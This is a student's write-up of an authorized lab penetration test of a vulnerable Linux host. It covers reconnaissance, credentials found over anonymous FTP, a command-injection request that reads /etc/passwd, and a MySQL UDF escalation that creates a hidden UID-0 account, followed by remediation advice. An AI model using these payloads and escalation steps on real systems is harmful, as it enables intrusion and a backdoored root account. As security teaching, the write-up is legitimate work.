




# Lab 3: Linux host penetration test

A full penetration test of a deliberately vulnerable Linux host, done in a university security lab on an isolated lab network. The target was `192.168.141.16`, a machine I was authorized to attack. This write-up follows the whole chain: reconnaissance, service enumeration, initial access, and escalation to root.

Lab done in a team of 4. Write-up and reformulation by Ilyas El Houdaigui. No teammate names or student IDs are included.

French version: [README.fr.md](README.fr.md).

The kill chain:

1. [Reconnaissance and enumeration](#reconnaissance-and-enumeration)
2. [Known CVEs on the host](#known-cves-on-the-host)
3. [Anonymous FTP and credential discovery](#anonymous-ftp-and-credential-discovery)
4. [Command injection on the web app](#command-injection-on-the-web-app)
5. [Privilege escalation to root (MySQL UDF)](#privilege-escalation-to-root-mysql-udf)
6. [Web vulnerability scan (Nikto)](#web-vulnerability-scan-nikto)
7. [Remediation](#remediation)
8. [Tools used](#tools-used)
9. [Technique summary (MITRE ATT&CK / CWE)](#technique-summary-mitre-attck--cwe)

The CVE and ATT&CK references are my own mapping. The version-to-CVE associations below are indicative: they come from banner and version matching, not from exploiting each CVE one by one.

---

## Reconnaissance and enumeration

Host discovery on the lab subnet:

```
nmap -v 192.168.141.0/24
```

Target: `192.168.141.16`, MAC `52:54:00:68:AB:96` (a QEMU/KVM virtual NIC).

OS fingerprint:

```
nmap -O 192.168.141.16
```

Result: Linux kernel 2.6.13 to 2.6.32. An old kernel, which already points at local privilege escalation later.

Service and version scan:

```
nmap -A 192.168.141.16
```

| Service | Version | Indicative CVE |
|---------|---------|----------------|
| FTP | ProFTPD 1.3.0a | CVE-2006-6563 (buffer overflow) |
| SSH | OpenSSH 4.4 | CVE-2018-15473 (username enumeration) |
| HTTP | Apache 1.3.37 | CVE-2007-3304 |
| IPP | CUPS 1.1 | CVE-2002-1368 |
| MySQL | 5.0.24a | CVE-2017-3455 |

MySQL did not expose its version remotely and remote login was closed, so I read it from the box itself after getting a shell:

```
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa didier@192.168.141.16   # password: trappe
mysql -u root
SELECT VERSION();
```

(The `HostKeyAlgorithms` and `PubkeyAcceptedAlgorithms` options are needed because a modern SSH client refuses the old `ssh-rsa` key exchange this host offers.)

---

## Known CVEs on the host

Two local privilege-escalation CVEs match the kernel, both usable once there is any shell on the box:

- CVE-2016-5195 (Dirty COW): a race in the copy-on-write handling that lets a normal user gain root.
- CVE-2018-14634 (Mutagen Astronomy): an integer overflow reachable through a SUID binary, leading to local root.

The actual escalation used later in this lab did not rely on these, but they confirm the host is exploitable from an unprivileged shell.

---

## Anonymous FTP and credential discovery

The FTP service allowed anonymous login (user `anonymous`, empty password):

```
ftp 192.168.141.16
# Name: anonymous   Password: (empty)
ls -la
```



The listing included a `didier` directory. Inside it, a text file (`21803.txt`) held a password reminder:

```
cat 21803.txt
# Will I ever remember this? trappe
```

`trappe` is the password for the user `didier`, and it works for both FTP and SSH:

```
ftp 192.168.141.16
# Name: didier   Password: trappe   -> 230 User didier logged in.
```

The same password was also present in a wordlist on the host (`liste-francais.txt`), so a dictionary attack with Hydra would have recovered it as well. Storing a credential in a readable file is the weak point here (CWE-522, CWE-312).

---

## Command injection on the web app

The web application exposed a page that runs `man` with a user-controlled argument (`index.php?cmd=man&manpage=...`). The parameter was passed to a shell without sanitization, so a `;` starts a second command. The goal was to read `/etc/passwd` without using the `didier` account:

```
curl "http://192.168.141.16/index.php?cmd=man&manpage=%3Bcat%20%2Fetc%2Fpasswd"
```

`%3B` is `;` and `%2F` is `/`, so the server runs `cat /etc/passwd` and returns the file in the response.



This is OS command injection (CWE-78), exploited remotely against the public-facing app.

---

## Privilege escalation to root (MySQL UDF)

With a shell as `didier` over SSH, two facts lined up: the MySQL server runs as root, and the local `root` MySQL account has no password. That is enough for the classic `raptor_udf2` user-defined-function escalation.

The idea is to load a malicious shared object into MySQL that registers a `do_system` function. Commands run through `do_system` execute with the privileges of the MySQL process, which is root here.

```sql
-- write the compiled UDF object into the library path
CREATE TABLE toto(line blob);
INSERT INTO toto VALUES(load_file('/home/didier/raptor_udf2.so'));
SELECT * FROM toto INTO DUMPFILE '/usr/lib/raptor_udf2.so';

-- register the function that runs shell commands as root
CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
```



Then create a new administrator account and give it UID 0:

```sql
SELECT do_system('sudo useradd -m -s /bin/bash toto && echo "toto:lateteatoto" | sudo chpasswd && sudo usermod -aG sudo toto');
SELECT do_system('usermod -u 0 -o -g 0 toto');
```

The new user `toto` (password `lateteatoto`) is now effectively root. Logging in confirms it:

```
ssh toto@192.168.141.16
whoami    # root
id toto   # uid=0(root) gid=0(root) groups=0(root)
```



Two problems chain here: a service running as root (MySQL) and a passwordless local root account for it. That combination turns a normal user shell into full root (T1068, T1136.001).

---

## Web vulnerability scan (Nikto)

```
nikto -h http://192.168.141.16
```

Findings:

- Apache 1.3.37, end of life: CVE-2006-3747, CVE-2007-3304.
- PHP 4.4.4, end of life: CVE-2010-3717, CVE-2009-0754, and a series of older ones (CVE-2007-1710, CVE-2007-1286, CVE-2006-7204, CVE-2006-4625, CVE-2006-3011, CVE-2006-1017).
- `/phpmyadmin` reachable by anyone, version 2.10.1: CVE-2007-2245.
- `/info.php` exposes a full `phpinfo()` page, which leaks server paths, modules, and configuration (CWE-200).

---

## Remediation

- Disable anonymous FTP, and never store passwords in readable files or shipped wordlists.
- Replace the user input to `man` with a strict allowlist, and never pass request data to a shell. This closes the command injection (CWE-78).
- Do not run MySQL as root, set a password on the local `root` MySQL account, and remove the `FILE` privilege so `LOAD_FILE` and `INTO DUMPFILE` cannot write a UDF.
- Patch or replace the end-of-life software: the kernel, ProFTPD, OpenSSH, Apache, and PHP.
- Remove `info.php` and put `phpMyAdmin` behind authentication and an IP allowlist.

## Tools used

- `nmap` for host discovery, OS fingerprinting, and service and version detection.
- An FTP client and `curl` for enumeration and the command-injection request.
- `ssh` and the MySQL client for the foothold and the UDF escalation, with the `raptor_udf2` exploit.
- Hydra as the fallback path for the credential (dictionary attack).
- `nikto` for the web vulnerability scan.

## Technique summary (MITRE ATT&CK / CWE)

| Step | Technique | ID |
|------|-----------|-----|
| nmap host and service discovery | Network service discovery | T1046 |
| Anonymous FTP, password in a file | Credentials in files | T1552.001 |
| Dictionary attack fallback (Hydra) | Brute force (password guessing) | T1110.001 |
| Reuse of `didier` credentials over SSH | Valid accounts | T1078 |
| Web command injection | Exploit public-facing application | T1190 |
| Command injection flaw | OS command injection | CWE-78 |
| MySQL UDF to run commands as root | Exploitation for privilege escalation | T1068 |
| Creating the `toto` admin account | Create account | T1136.001 |
| phpinfo and version exposure | Information disclosure | CWE-200 |

## Note on scope and ethics

This was an authorized test against a disposable lab host on an isolated network, set up for the exercise. The credentials and accounts shown (`didier`, `toto`) belong to that throwaway machine and have no value anywhere else. Nothing here was run against a system I do not own or was not allowed to test.
